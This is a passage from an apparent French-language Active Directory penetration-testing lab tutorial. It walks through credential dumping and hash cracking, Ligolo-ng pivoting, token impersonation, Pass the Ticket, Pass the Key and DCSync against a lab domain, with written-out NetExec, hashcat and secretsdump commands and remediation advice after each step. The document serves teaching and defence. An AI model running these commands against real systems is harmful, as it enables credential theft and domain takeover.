./ADACLScan.ps1 -Base "DC=contoso,DC=com" -Scope subtree -ApplyTo "computer|*" -Permission "ExtendedRight|GenericAll|WriteDACL|WriteOwner" -IncludeInherited -SkipBuiltIn -LDAPFilter "(|(objectCategory=OrganizationalUnit)(objectClass=domaindns))" -PropertyFilter "msLAPS-Password|msLAPS-EncryptedPassword|msLAPS-EncryptedPasswordHistory" | fl
```

### Ressources

- [What is Windows LAPS](https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview)
- [HackTricks - LAPS](https://hacktricks.wiki/fr/windows-hardening/active-directory-methodology/laps.html)
- [What you should know about Windows LAPS](https://www.pdq.com/blog/new-windows-laps/)
- [Windows LAPS - IT Connect](https://www.youtube.com/watch?v=06-QiwKDFEo)

## Exploitation de la Mise en Cache Des Identifiants

Précédemment, nous avons obtenu les identifiants des administrateurs locaux des machines WS01 et WS02.  

Pour le moment, nous nous concentrerons uniquement sur la machine WS01, car il n'est pas possible de communiquer directement avec WS02 depuis notre machine attaquante pour des raisons de segmentation réseau.  

Afin de nous authentifier à WS01, nous allons utiliser l'option `--local-auth` de [NetExec](https://www.netexec.wiki/smb-protocol/authentication/checking-credentials-local) car nous souhaitons effectuer une authentification locale au lieu d'une authentification au domaine.  

Une fois authentifié en tant qu'administrateur local, nous allons procéder à l'extraction des secrets contenus dans LSA, la base SAM ainsi que déchiffrer les secrets protégés par DPAPI. Pour cela, il suffit d'utiliser les options `--lsa`, `--sam` et `--dpapi` de NetExec.  

Comme vous pouvez le voir dans la démonstration ci-dessous, l'extraction des secrets a été fructueuse et a permis d'obtenir des hashs NT ainsi que des identifiants mis en cache, encore appelés cached domain credentials ([T1003.005](https://attack.mitre.org/techniques/T1003/005/)) en anglais.  

En effet, lorsqu'un utilisateur du domaine se connecte sur une machine Windows, ses identifiants sont stockés localement dans le registre de la machine sous forme de hash **MS-Cache v2**. Cela permet à l'utilisateur de pouvoir se connecter à la machine en question lorsque le contrôleur de domaine devient injoignable.  

Par défaut, Windows stocke en cache les identifiants des **10** derniers utilisateurs ayant ouvert une session interactive sur la machine.  

Bien que cette fonctionnalité soit pratique, elle pose tout de même des risques de sécurité. Par exemple, si un administrateur du domaine se connecte à une machine autre que la sienne, ses identifiants seront mis en cache sur la machine cible. En cas de compromission de cette machine, un attaquant pourrait extraire les secrets (hash MS-Cache v2) de l'administrateur du domaine stockés en cache, puis tenter de retrouver son mot de passe en clair en réalisant une attaque hors ligne.  

Comme vous l'aurez deviné, la réussite de cette attaque dépend de la complexité du mot de passe de l'utilisateur dont les identifiants ont été mis en cache.  

### Méthodologie

Voyons à présent comment exploiter les identifiants mis en cache.  

Dans un premier temps, nous allons nous authentifier au compte de l'administrateur local sur WS01:  

```bash
nxc smb 192.168.24.129 -u 'administrator' -p 'js9tPi!xl2sU4t83' --local-auth
```



Après cela, nous pouvons procéder à l'extraction des secrets en utilisant NetExec:  

```bash
nxc smb 192.168.24.129 -u 'administrator' -p 'js9tPi!xl2sU4t83' --local-auth --sam --lsa --dpapi
```



Enregistrons les hashs `Ms-Cache v2` dans un fichier:  

```bash
awk -F ':' '{print $2}' WS01_192.168.24.129_2026-05-21_065310.cached | tee -a mscache.hash
```



Une fois cela effectué, nous allons réaliser une attaque hors ligne comme suit:  

```bash
hashcat --identify mscache.hash
```



```bash
hashcat -m 2100 -a 0 mscache.hash pass.txt
```



```bash
hashcat -m 2100 mscache.hash --show
```



Nous avons réussi à obtenir le mot de passe en clair de l'administrateur du domaine. Tentons de nous authentifier à son compte:  

```bash
nxc smb 192.168.24.136 -d 'evilcorp.local' -u 'administrator' -p 'Password123'
```



### Recommandations

- Ajoutez les comptes privilégiés au groupe de sécurité "Protected Users". Cela permettra d'empêcher la mise en cache de leurs identifiants sur une machine cible.
- Implémentez une politique de mots de passe robuste (longueur, complexité, limiter le nombre maximal de tentatives avant verrouillage)
- Mettez en place le modèle d'administration en tiers
- Limitez le nombre d'identifiants mis en cache à 1. Pour cela, vous pouvez utilisez les commandes ci-dessous

Afin d'énumérer le nombre d'identifiants mis en cache, utilisez la cmdlet suivante:  

```powershell
Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon' -Name CachedLogonsCount
```

Pour changer cette valeur à 1, vous pouvez utiliser cette cmdlet:

```powershell
Set-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon' -Name 'CachedLogonsCount' -Value '1'
```

### Ressources

- [Cached domain logon information](https://learn.microsoft.com/en-us/troubleshoot/windows-server/user-profiles-and-logon/cached-domain-logon-information)
- [L’Active Directory et la mise en cache des identifiants](https://www.it-connect.fr/active-directory-et-la-mise-en-cache-des-identifiants/)
- [Dumping and Cracking mscash](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)
- [What are cached domain credentials?](https://securelayer7.net/learn/credential-access/what-are-cached-domain-credentials)

## Résumé



# Scénario 4

Dans cette section, nous aborderons un nouveau scénario en faisant fi des identifiants de l'administrateur du domaine que nous avons précédemment trouvé dans le cache.  
Pour cela, il sera nécessaire d'exploiter d'autres chemins d'attaque afin de compromettre le domaine.  

## Single Pivoting

Pour rappel, après avoir exploité une mauvaise configuration sur les permissions de LAPS, nous avons réussi à obtenir les mots de passe des administrateurs locaux sur les machines WS01 et WS02. Cependant, notre machine attaquante ne pouvait pas accéder directement à WS02 en raison de la segmentation réseau.  

Pour contourner cette restriction, nous allons utiliser WS01 comme intermédiaire/pont afin d'accéder à la machine WS02. En effet, WS01 partage le même sous-réseau (172.16.48.0/24) que WS02 et peut donc communiquer directement avec cette dernière. Cette technique s'appelle le pivoting.

Le **pivoting** est une technique de post-exploitation qui permet à un attaquant d'utiliser une machine compromise (ici WS01) pour accéder à d'autres machines (WS02) qui ne sont pas directement accessibles depuis sa machine. Dans le jargon, la machine compromise (WS01) est appelée **pivot**. Pour faire court, l'explication précédente peut être résumée comme suit:  

`Attaquant <-> WS01 <-> WS02`

Plusieurs outils tels que [Chisel](https://github.com/jpillora/chisel) ou [Ligolo-ng](https://github.com/nicocha30/ligolo-ng) peuvent être utilisés pour réaliser le pivoting. Personnellement, je préfère Ligolo-ng pour sa simplicité d'utilisation.  

### Méthodologie

Afin de configurer le pivoting avec Ligolo-ng, vous pouvez suivre les étapes suivantes:

1/ Enumérer les interfaces réseau du pivot (WS01).  

```powershell
ipconfig
```



2/ Télécharger les binaires précompilés proxy et agent.  

Vous pouvez utiliser ce [lien](https://github.com/nicocha30/ligolo-ng/releases).

3/ Exécuter le proxy sur votre machine. Cela lancera un serveur sur le port 11601 par défaut. C'est via ce serveur que vous pourrez configurer les sessions.  

```bash
./proxy -selfcert
```



4/ Transférer puis exécuter l'agent sur le pivot.  





```powershell
.\agent.exe -ignore-cert -retry -connect 192.168.24.128:11601
```



Une option très intéressante dans la commande ci-dessus est `-retry`. Cela permet à l'agent de se reconnecter automatiquement au proxy dès que la connexion est interrompu. C'est très utile surtout sur des réseaux avec une connexion instable.  

5/ Configurer le pivot (interface, tunnel, route) après connexion de l'agent au proxy.  

En regardant du côté de notre proxy, nous pouvons voir que nous avons reçu une nouvelle connexion en provenance de notre pivot. Afin d'accéder à la session, nous allons utiliser la commande `session` dans Ligolo-ng:  

```bash
session
```



Pour lister l'ensemble des interfaces auxquelles le pivot est connecté, nous allons utiliser la commande `ifconfig` comme sur Linux:

```bash
ifconfig
```



WS01 est connecté à 3 interfaces réseaux y compris l'interface local.  
Pour rappel, notre objectif est d'accéder au réseau `172.16.48.0/24` à partir de notre machine attaquante `192.168.24.128`. Comme nous pouvons le constater, nous n'y avions pas encore accès.  

```bash
ping -c4 172.16.48.129
```



Pour y accéder, nous allons créer une nouvelle interface, lancer un tunnel sur cette interface, puis ajouter une nouvelle route comme suit:  

```bash
ifcreate --name ligolo0
```

```bash
iflist
```



```bash
tunnel_start --tun ligolo0
```

```bash
tunnel_list
````



```bash
route_add --name ligolo0 --route 172.16.48.0/24
````

```bash
route_list
````



6/ Accéder à la machine WS02 à partir de votre machine attaquante.  

```bash
ping -c4 172.16.48.129
````




```bash
nxc smb 172.16.48.0/24
```



```bash
nxc smb 172.16.48.130 -u 'administrator' -p '$L,owu$;!84jG25h' --local-auth
```



Comme vous pouvez le voir, nous avons accès à la machine WS02.  

### Ressources

- [Ligolo-ng Documentation](https://docs.ligolo.ng/)
- [Pivoting made easy with Ligolo-ng](https://olivierkonate.medium.com/pivoting-made-easy-with-ligolo-ng-17a4a8a539df)
- [Network Pivoting With Ligolo-ng](https://www.youtube.com/watch?v=DM1B8S80EvQ)
- [Pivoting With Ligolo-ng](https://notes.benheater.com/books/network-pivoting/page/pivoting-with-ligolo-ng)
- [APPREND A PIVOTER COMME UN HACKER](https://www.youtube.com/watch?v=8oVeEDqV5DE)


## Usurpation de Tokens

Maintenant que nous avons accès à WS02, nous allons énumérer les utilisateurs connectés à cette machine.  

Il peut arriver que les administrateurs du domaine se connectent sur des postes de travail d'utilisateurs standards dans le cadre de leurs activités (par exemple résoudre un problème technique sur la machine d'un employé).  

Dans un tel scénario, il est possible pour un attaquant ayant compromis cette machine d'usurper le token de l'administrateur. Cette attaque porte le nom d'**usurpation de token** ([T1134.001](https://attack.mitre.org/techniques/T1134/001/)) ou **token impersonation** en anglais. Dit autrement, cela permet à un attaquant de se faire passer pour l'administrateur du domaine et de réaliser des actions en son nom.  

Mais au final, qu'est-ce qu'un token ?  

Un **token** est un objet Windows qui décrit le contexte de sécurité d'un processus ou d'un thread. Lorsqu'un utilisateur s'authentifie à une machine Windows, il obtient un token qui est ensuite utiliser par le système pour déterminer son identité ainsi que ses permissions. Le token stocke par exemple des informations tels que le SID de l'utilisateur, les groupes auxquels il appartient ainsi que ses privilèges. 

Il existe 2 types de token: les **primary tokens** et les **impersonation tokens**. On s'intéressera aux primary tokens pour notre part.  

Un primary token (token primaire) est un token qui est généré à la suite d'une authentification interactive (par exemple une connexion locale ou à distance à votre machine). Il est important de noter que les processus exécutés par un utilisateur hériteront de son token primaire.  

||Primary token|Impersonation Token|
|-----------------|-------------|-------------------|
|Is Associated With a                | Process         | Thread
|Is Generated After            | Interactive Logon         | Network Logon
|Credentials May be Stored In LSASS              | Yes         | No

### Méthodologie

Afin d'usurper le token primaire d'un utilisateur sur une machine compromise, vous pouvez procéder comme suit:

1/ Enumérer l'ensemble des utilisateurs connectés sur la machine compromise.  

Vous pouvez vérifier cela avec l'option --loggedon-users de NetExec.  

```bash
nxc smb 172.16.48.130 -u 'administrator' -p '$I%!F6Gx2e}p}q$0' --local-auth
```



```smb
nxc smb 172.16.48.130 -u 'administrator' -p 'Dq;!{kyT%59CL,2(' --local-auth --loggedon-users
```



2/ Une fois que vous avez trouvé un utilisateur avec des privilèges intéressants, vous pouvez procéder à l'usurpation de son token en utilisant le module impersonate de NetExec.  

```bash
nxc smb 172.16.48.130 -u 'administrator' -p 'Dq;!{kyT%59CL,2(' --local-auth -M 'impersonate'
```



On va s'intéresser au primary token ayant l'ID 1 car il appartient à l'administrateur du domaine. Nous allons tenter d'exécuter la commande `whoami` en tant que Administrateur:  

```bash
nxc smb 172.16.48.130 -u 'administrator' -p 'Dq;!{kyT%59CL,2(' --local-auth -M 'impersonate' -o TOKEN='1' EXEC='dir \\dc01\c$'
```



### Recommandations

- Appliquez le principe du moindre privilège en restreignant les privilèges (SeAssignPrimaryToken, SeImpersonate ou SeTcbPrivilege) aux services et comptes dont le besoin est justifié.
- Mettez en place le [modèle d'administration en Tiers](https://sensepost.com/blog/2026/from-flat-networks-to-locked-up-domains-with-tiering-models/)

### Ressources

- [Access tokens - Microsoft](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
- [Windows Access Tokens : Fonctionnement, rôle & technique d’exploitation](https://www.devoteam.com/fr/expert-view/windows-access-tokens-fonctionnement-role-technique-dexploitation/)
- [ABUSER DES TOKENS WINDOWS DANS LE BUT DE COMPROMETTRE UN ACTIVE DIRECTORY](https://www.youtube.com/watch?v=gtg_rmLW60I)
- [Quick introduction to Windows Access Tokens for red team professionals](https://www.100daysofredteam.com/p/quick-introduction-to-windows-access-tokens-red-team)
- [Administrative tools and logon types](https://learn.microsoft.com/en-us/windows-server/identity/securing-privileged-access/reference-tools-logon-types)

## Résumé



# Scénario 5

Dans cette section, nous énumérons l'historique de commandes PowerShell sur la machine WS02 afin de trouver le mot de passe de la une base de données KeePass. 

## Enumération de l'historique de commandes PowerShell

Dans ce nouveau scénario, nous allons ignorer le chemin d'attaque sur l'usurpation de token, en supposant que l'administrateur du domaine n'est pas connecté à la machine WS02.  

L'une des premières étapes à effectuer après avoir compromis une machine est le **situational awareness**. Il consiste à comprendre l'environnement dans lequel vous vous trouvez. Cela passe, par exemple, par l'énumération des interfaces réseaux, des services, des processus, des utilisateurs et groupes, des applications installées, ou encore des solutions de sécurité (AV, EDR, FW) mises en place.  

Un des vecteurs d'attaque simple et souvent intéressant est l'énumération de l'**historique des commandes** ([T1552.003](https://attack.mitre.org/techniques/T1552/003/)). En effet, vous pouvez y retrouver des identifiants de connexion, des clés API, etc.  

Il est important de noter que contrairement à CMD, PowerShell (depuis la version 5.0+) enregistre de façon persistente les commandes exécutées par les utilisateurs dans le fichier **ConsoleHost_history.txt**.  

### Méthodologie

Pour énumérer l'historique des commandes, vous pouvez utiliser le module [powershell_history](https://www.netexec.wiki/news/v1.3.0-needforspeed#hunting-for-passwords-in-powershell-histories) de NetExec.  

```bash
nxc smb '172.16.48.130' -u 'administrator' -p '$I%!F6Gx2e}p}q$0' --local-auth -M 'powershell_history'
```



Comme vous pouvez le voir, l'historique de commandes PowerShell contient un mot de passe qui semble être utilisé pour accéder au gestionnaire de mots de passe Keepass.  

La prochaine étape consistera à identifier l'emplacement de la base de données Keepass sur le système. Pour cela, vous pouvez utiliser le module [keepass_discover](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-keepass) de NetExec.  

```bash
nxc smb '172.16.48.130' -u 'administrator' -p '$I%!F6Gx2e}p}q$0' --local-auth -M 'keepass_discover'
```



Une fois la base de données Keepass découverte, nous allons l'ouvrir avec le mot de passe trouvé dans l'historique de commandes.  

L'accès à cette base, permet d'identifier une clé privée SSH dans la corbeille. Toutefois, lors du scan de ports aucun service SSH n'a été trouvé sur les machines WS01, WS02 et DC01. Cela rend ce vecteur d'attaque inexploitable pour le moment.  

```bash
xfreerdp /u:'administrator' /p:'$L,owu$;!84jG25h' /v:'172.16.48.130:33389' /cert-ignore /dynamic-resolution /auto-reconnect /clipboard /drive:tools,/opt/resources/windows/
```







> Dans un tel scénario, vous pouvez rajouter cette information à vos notes puis continuer l'énumération de la machine afin d'éviter toute perte de temps.

### Recommandations

- Evitez d'utiliser des mots de passes, clés API ou autres secrets directement en ligne de commandes.
- Auditez l'historique de commandes PowerShell afin de vérifier qu'il ne stocke pas de secrets. Procédez au changement des secrets dès que vous trouverez des secrets dans l'historique de commandes. 

### Ressources

- [Comment gérer l’historique des commandes PowerShell exécutées ?](https://www.it-connect.fr/comment-gerer-lhistorique-des-commandes-powershell-executees/)
- [Hunting for passwords in PowerShell Histories](https://www.netexec.wiki/news/v1.3.0-needforspeed#hunting-for-passwords-in-powershell-histories)

## Double Pivoting

Lors de l'énumération des interfaces réseaux de la machine WS02, on peut constater qu'elle est connectée à un autre réseau 10.10.10.0/24 qui était jusque là méconnue.  

Afin d'accéder à ce nouveau réseau, nous allons réaliser un double pivoting.  

Le **double pivoting** est une technique de post-exploitation qui consiste à faire transiter votre trafic par deux machines compromises (servant successivement de pivots) afin d'accéder un réseau auquel vous n'aviez pas directement accès.  

Dit autrement, pour accéder au réseau 10.10.10.0/24, nous allons faire transiter notre trafic par WS01 (1er pivot) puis par WS02 (2ieme pivot). L'explication ci-dessus peut être résumée comme suit:  

`Attaquant <-> WS01 <-> WS02 <-> réseau cible (10.10.10.0/24)`

Pour configurer le double pivoting, nous allons utiliser Ligolo-ng. Nous allons utiliser une nouvelle fonctionnalité appelée [Listeners](https://docs.ligolo.ng/Listeners/).  

Un **listener** est une fonctionalité dans Ligolo-ng qui permet d'ouvrir un port sur un agent (pivot) puis de rédiriger les connexions à destination de ce port vers un socket (adresse_ip:port) de votre choix.  

### Méthodologie

Voici les différentes étapes pour configurer le double pivoting:  

1/ Enumérer les interfaces réseaux de WS02.  



2/ Transférer l'agent sur WS02.  

Vous pouvez utiliser SMB, HTTPS pour transférer des fichiers.    

3/ Ajouter un listener à WS01 via l'interface de configuration de votre proxy.  

```bash
listener_add --addr 172.16.48.129:11601 --to 127.0.0.1:11601
```



4/ Exécuter l'agent sur WS02 en utilisant comme adresse et port de destination, ceux du listener configuré dans l'étape 3.  

```bash
.\agent.exe -ignore-cert -retry -connect 172.16.48.129:11601
```



5/ Configurer le pivot (interface, tunnel, route) après connexion de l'agent.  

```bash
session
```

```bash
ifconfig
```




```bash
ifcreate --name ligolo1
````

```bash
tunnel_start --tun ligolo1
```

```bash
add_route --name ligolo1 --route 10.10.10.0/24
```



6/ Accéder au réseau 10.10.10.0/24 à partir de votre machine attaquante.  

```bash
ping -c4 10.10.10.130
```



### Ressources

- [Pivoting made easy with Ligolo-ng](https://olivierkonate.medium.com/pivoting-made-easy-with-ligolo-ng-17a4a8a539df)
- [Double Pivoting with Ligolo-ng](https://www.youtube.com/watch?v=CNFEMcdgU1k)

## Enumération des Machines

Maintenant que nous avons accès au réseau 10.10.10.0/24, nous allons énumérer les appareils connectés sur ce réseau. Pour cela, vous pouvez utiliser plusieurs techniques comme le scan ARP, le ping sweep ou encore le TCP SYN ping.  

Le **ping sweep** est une technique qui consiste à identifier les hôtes (appareils) actifs sur un réseau en leur envoyant des requêtes ping (ICMP Echo Request) et en analysant leurs réponses (ICMP Echo Reply).  

Cependant, certains hôtes peuvent être actifs sans répondre au ping, notamment lorsque le trafic `ICMP` est filtré par le pare-feu de la machine.  

Afin de réaliser un ping sweep, vous pouvez utiliser l’utilitaire [fping](https://www.fping.org/). Contrairement à la commande `ping`, il permet de tester directement une plage d’adresses IP sans avoir besoin d’utiliser une boucle for.  

### Méthodologie

Par exemple la commande `fping` ci-dessous va automatiquement générer la plage d'adresses IP à scanner et retourner les hôtes actifs.  

```bash
fping -gaq 10.10.10.0/24
```



L'hôte qui nous intéressera ici est 10.10.10.131 (WS03). Après l'avoir identifié, nous effectuerons un scan de ports en utilisant `Nmap`.  

```bash
nmap -T4 -Pn -p- 10.10.10.131 -oA ws03-full-tcp4
```

Les résultats obtenus montrent que le port `tcp/22` est ouvert.  

Le vecteur d'attaque assez évident dans ce scénario est d'essayer de s'authentifier au service SSH en utilisant la clé privée que nous avions trouvé dans la corbeille du gestionnaire de mots de passe Keepass.  

```bash
nmap -T4 -sCV -p22 --script 'ssh-auth-methods' 10.10.10.131
```



Toutefois, nous avons un problème. Nous ne savons pas à quel utilisateur appartient la clé privée ?  

Afin d'obtenir davantage d'informations sur la clé privée, nous allons utiliser la commande `ssh-keygen`.  

```bash
ssh-keygen -y -f carol_ssh_pvkey
```



Comme vous pouvez le voir ci-dessus, il nous est demandé de fournir une passphrase. Cela signifie que la clé privée est protégée par une phrase secrète.

Pour craquer cette passphrase, vous pouvez utiliser l'utilitaire `ssh2john` afin de convertir la clé privée en un format craquable par `John`. La réussite de cette attaque dépendra de la complexité de la passphrase ainsi que de la qualité de votre dictionnaire.  

```bash
ssh2john carol_ssh_pvkey > ssh_pvkey.hash
```



```bash
john --wordlist=pass.txt ssh_pvkey.hash
```



Une fois la passphrase craquée, la commande `ssh-keygen` révélera que la clé privée a été générée sur la machine WS03 et qu'elle appartient à l'utilisatrice Carol.  

```bash
ssh-keygen -y -f carol_ssh_pvkey
```



Finalement, nous pouvons nous authentifier au compte de `Carol` en utilisant la commande suivante:  

```bash
nxc ssh 10.10.10.131  -u 'carol' -p '5clbeoIy8v4vTyDt' --key-file carol_ssh_pvkey
```




### Recommandations

- Vérifiez régulièrement le fichier `authorized_keys` sur vos systèmes et supprimez les clés qui ne sont plus nécessaires.
- Protégez vos clés privées en limitant les droits d’accès à ces dernières. Par ailleurs, ne les stockez jamais dans des emplacements accessibles à des utilisateurs non autorisés.
- Remplacez le commentaire ajouté par défaut par `ssh-keygen` lors de la génération d’une paire de clés SSH par un commentaire personnalisé. En effet ce commentaire contient le nom d’utilisateur et le nom de la machine (utilisateur@machine), ce qui peut révéler des informations sur l’origine de la clé. Vous pouvez personnaliser votre commentaire avec l’option -C:

```bash
ssh-keygen -t ed25519 -f ~/.ssh/your-key-filename -C "your-key-comment"
```

### Ressources

- [Enumerating Hosts and Identifying the Domain Controllers](https://notes.benheater.com/books/active-directory/page/enumerating-hosts-and-identifying-the-domain-controllers)

## Pass the Ticket

Une fois authentifié au compte de Carol, nous allons tenter d'élever nos privilèges afin d'obtenir plus de droits sur le système.  

```bash
ssh -i carol_ssh_pvkey carol@10.10.10.131
```



L'une des premières commandes que nous pouvons exécuter est: `sudo -l`. Cela permet d'énumérer les privilèges de l'utilisateur compromis.  

```bash
sudo -l
```



Comme vous pouvez le voir, Carol est autorisée à exécuter n'importe quelle commande en tant que root sans avoir à spécifier de mot de passe.  

Pour exploiter cela, nous pouvons tout simplement exécuter la commande `sudo su` afin d'obtenir un shell avec les privilèges de root.  

```bash
sudo su
```



Une fois nos privilèges élevés, nous allons continuer à énumérer le système à la recherche de potentiels vecteurs d'attaques.  

Par défaut, les tickets (TGT/ST) sont stockés sur Linux dans le répertoire /tmp sous le format `krb5cc_%{uid}`. L'**UID** (**U**ser **ID**entifier) est un identifiant permettant d'identifier un utilisateur sur Linux.  

Lors de l'énumération de ce répertoire, nous découvrirons un ticket appartenant à l'utilisateur `whiterose`.  

Vu que nous avons des privilèges administrateur, nous pourrons exporter ce ticket sur notre machine attaquante puis nous authentifier auprès de services en réalisant un Pass the Ticket (PtT).  

Le **Pass the Ticket** ([T1550.003](https://attack.mitre.org/techniques/T1550/003/) est une technique qui permet à un attaquant de s'authentifier auprès d'un ou plusieurs services en utilisant le ticket Kerberos (TGT/ST) d'un utilisateur (ici l'administrateur du domaine) sans avoir aucune connaissance de son mot de passe.  

### Méthodologie

Dans cette section, nous allons énumérer le répertoire `/tmp` afin de rechercher d’éventuels tickets Kerberos susceptibles d’être réutilisés dans le cadre d’une attaque Pass the Ticket (PtT):   

```bash
ls -l /tmp
```



```bash
ls -la /tmp/krb5*
```



```bash
scp -i carol_ssh_pvkey carol@10.10.10.131:~/krb5cc_1083401127_wgraQ2 .
```



```bash
export KRB5CCNAME=krb5cc_1083401127_wgraQ2
```

```bash
klist
```



```bash
nxc smb dc01.evilcorp.local -d 'evilcorp.local' --use-kcache
```



Comme vous pouvez le voir, nous avons un accès administrateur au contrôleur de domaine.

> Le Pass the Ticket (PtT) est similaire au Pass the Hash (PtH): dans les deux cas, l'attaquant utilise un secret d'authentification autre que le mot de passe en clair de l'utilisateur. Cependant, le PtH repose sur l'utilisation du hash NT, tandis que le PtT repose sur l'utilisation de tickets Kerberos.

### Recommandations

- Limitez les droits et permissions des utilisateurs au strict besoin fonctionnel. Retirer l'utilisatrice carol du groupe sudoers si cela n'est pas nécessaire.
- Durcissez le système d'exploitation en utilisant le [guide de l'ANSSI](https://messervices.cyber.gouv.fr/documents-guides/fr_np_linux_configuration-v2.0.pdf) sur les recommandations de configuration d'un système GNU/Linux.
- Ajoutez les utilisateurs privilégiés au groupe de sécurité "Protected Users". Les membres de ce groupe ont un TGT dont la durée de validité maximale est de 4h. De plus, leur TGT ne peut pas être renouvelé au-delà de cette durée.
- Appliquez le principe du moindre privilège en accordant aux utilisateurs uniquement les permissions nécessaires à l’exécution de leurs tâches. Cela permet de limiter les impacts potentiels en cas de compromission du ticket d'un utilisateur.

### Ressources

- [Cached Kerberos Tickets](https://www.thehacker.recipes/ad/movement/credentials/dumping/cached-kerberos-tickets)
- [How to attack Kerberos? - Pass the Ticket](https://www.tarlogic.com/blog/how-to-attack-kerberos/#Pass_The_Ticket_PTT)

## Pass the Key

Précédemment, nous avons compromis le compte de l'utilisateur whiterose en réalisant un Pass the Ticket en dérobant son ticket, stocké dans le répertoire /tmp.  

Cependant, que ferions-nous si ce ticket n'existait pas ?  

Eh bien, nous aurions tout simplement énuméré la machine afin de trouver d'autres vecteurs d'attaques.  

Un des fichiers intéressants à toujours rechercher après compromission d'une machine Linux reliée à l'Active Directory est le fichier keytab.  

**Keytab** (key table) est un fichier qui stocke entre autres les noms des [principaux](https://learn.microsoft.com/fr-fr/windows-server/identity/ad-ds/manage/understand-security-principals) (utilisateur, service, machine) du domaine ainsi que leurs clés Kerberos.  

### Méthodologie

Pour rechercher ces fichiers, vous pouvez exécuter la commande `find`.  

```bash
find / -type f -iname '*.keytab' 2> /dev/null
```



Dans notre scénario, `find` a permis de trouver le fichier **administrator.keytab**.  

Afin d'extraire les clés Kerberos contenues dans ce fichier keytab, nous utiliserons l'utilitaire [KeyTabExtract](https://github.com/sosdave/KeyTabExtract). Il s'agit d'un script Python qui va analyser le contenu d'un fichier keytab afin d'en extraire des informations telles que le realm, le nom des principaux ainsi que leurs clés kerberos.  

Les **clés Kerberos** (ou Long-Term Keys en anglais) sont des clés cryptographiques dérivées du mot de passe du principal. Elles peuvent être générées à partir des algorithmes de chiffrement DES, RC4, AES128 ou encore AES256.  

```bash
scp -i carol_ssh_pvkey carol@10.10.10.131:/home/carol/administrator.keytab administrator.keytab
```



```bash
python keytabextract.py administrator.keytab
```



Comme vous pouvez le voir ci-dessus, nous avons extrait la clé Kerberos de l'utilisateur `Administrateur` à partir du fichier **administrator.keytab**.  

Cette clé Kerberos peut être ensuite utilisé pour demander des tickets (TGT/ST) au KDC afin d'accéder à des ressources. Cette technique est appelée Pass the Key.  

Le **Pass the Key** est une technique qui permet à un attaquant d'obtenir un TGT à partir de la clé Kerberos (AES128, AES256) d'un utilisateur, sans connaître son mot de passe. Ce TGT peut être ensuite utilisé pour demander des tickets de service (ST) afin d'accéder à des ressources.  

```bash
nxc smb dc01.evilcorp.local -u 'administrator' --aesKey '89bc6f3a9ce8065233faf407608f4bd8ebb311036b15947e15f02b6e5e226782'
```



> Lorsque la clé Kerberos utilisée est une clé **AES128** ou **AES256**, on parle de Pass the Key. En revanche, lorsque la clé utilisée est une clé **RC4**, celle-ci correspond au **hash NT** du compte.  
> L'utilisation de ce hash NT pour obtenir un TGT est appelée l'**Overpass the Hash (OpTH)** et non Pass the Key. Par ailleurs, l'OPtH constitue une alternative au Pass the Hash dans les environnements où NTLM est restreint et où l'algorithme de chiffrement RC4 est activé.

### Recommandations

- Limitez les droits et permissions des utilisateurs au strict besoin fonctionnel. Retirer l'utilisatrice carol du groupe sudoers si cela n'est pas nécessaire.
- Durcissez le système d'exploitation en utilisant le [guide de l'ANSSI](https://messervices.cyber.gouv.fr/documents-guides/fr_np_linux_configuration-v2.0.pdf) sur les recommandations de configuration d'un système GNU/Linux.

### Ressources

- [Pass the Key - THR](https://www.thehacker.recipes/ad/movement/kerberos/pass-the/ptk)
- [Pass-the-Key (Overpass-the-Hash)](https://www.vaadata.com/en/blog/what-is-pass-the-hash-attacks-types-and-security-best-practices/#pass-the-key-overpass-the-hash)

## DCSync

Maintenant que nous avons compromis le domaine, nous allons tenter de maintenir notre accès sur celui-ci en utilisant des techniques de persistance.  

L'une des techniques les plus simples consiste à créer un nouvel utilisateur, puis à l'ajouter au groupe "Domain Admins". Cependant, il existe d'autres techniques telles que le Golden Ticket.  

Afin d'utiliser cette technique, nous aurons besoin de la clé Kerberos du compte krbtgt. Pour cela, nous pouvons réaliser par exemple une attaque DCSync.  

Le DCSync ([T1003.006](https://attack.mitre.org/techniques/T1003/006/)) est une technique qui permet à un attaquant de récupérer des informations (par ex des hashs NT, des clés kerberos, etc) en exploitant le mécanisme de réplication des données entre les contrôleurs de domaine.  

Pour cela, l'attaquant va simuler le comportement d'un contrôleur de domaine en utilisant le protocole MS-DRSR (Directory Replication Service Remote Protocol) qui sert principalement à la réplication des données dans l'Active Directory.  

Afin de réaliser le DCSync, l'attaquant doit disposer des permissions **DS-Replication-Get-Changes** et **DS-Replication-Get-Changes-All**. Ces permissions sont octroyées par défaut aux utilisateurs membre des groupes Administrators, "Domain Admins" et "Enterprise Admins". Cependant il peut arriver de voir des utilisateurs standards avec ce type de permissions en raison des permissions mal configurées.  

### Méthodologie

Pour effectuer une attaque par DCSync, vous allons procéder comme suit:

1/ Enumérer les comptes et groupes du domaine disposant des permissions de replication.  
2/ Réaliser le DCSync en utilisant le script Secretsdump de la suite Impacket ou encore NetExec.  

```bash
impacket-secretsdump 'evilcorp.local/administrator'@192.168.24.136 -hashes ':58a478135a93ac3bf058a5ea0e8fdb71'
```







```bash
nxc smb dc01.evilcorp.local -u 'administrator' -H '58a478135a93ac3bf058a5ea0e8fdb71' --ntds --user krbtgt
```




### Recommandations

- Appliquez le principe du moindre privilèges en octroyant les permissions de réplication qu'aux utilisateurs/groupes dont le besoin est justifié.
- Effectuez un audit régulier des utilisateurs ayant les permissions de réplication.
- Mettez en place le modèle d'administration en tiers.

### Ressources

- [Qu’est-ce que l’attaque DCSync ?](https://www.it-connect.fr/securite-active-directory-attaque-dcsync-definition-protection/)
- [Securing Active Directory Against DCSync Attacks](https://www.nccgroup.com/research/defending-your-directory-an-expert-guide-to-securing-active-directory-against-dcsync-attacks/)

## Golden Ticket

Dans le poste précédent, nous avons obtenu la clé Kerberos du compte krbtgt via l'attaque DCSync.  

Ce clé peut être utilisée pour forger un TGT appelé Golden Ticket.  

Le Golden Ticket ([T1558.001](https://attack.mitre.org/techniques/T1558/001/)) est une technique de persistance qui consiste à forger un TGT à partir de la clé Kerberos du compte krbtgt.  

